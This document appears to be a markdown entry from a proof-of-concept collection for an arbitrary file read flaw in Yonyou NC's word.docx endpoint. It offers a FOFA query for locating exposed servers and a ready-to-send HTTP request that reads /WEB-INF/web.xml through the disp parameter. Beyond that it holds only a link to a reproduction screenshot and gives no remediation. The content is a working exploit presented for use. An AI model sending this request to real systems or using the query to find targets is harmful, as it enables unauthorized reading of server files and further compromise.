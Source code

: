# 用友NC word.docx任意文件读取漏洞


## 用友NC word.docx任意文件读取漏洞

## fofa
```
body="UClient.dmg"
```

## poc
```
GET /portal/docctr/open/word.docx?disp=/WEB-INF/web.xml HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept: */*
Connection: Keep-Alive

```

## 漏洞复现
![0152cd5a2d208fb2e336de5ac3621ebb](https://github.com/wy876/POC/assets/139549762/05dcd3bf-a6ae-4aac-95ca-e6788e2eadb0)

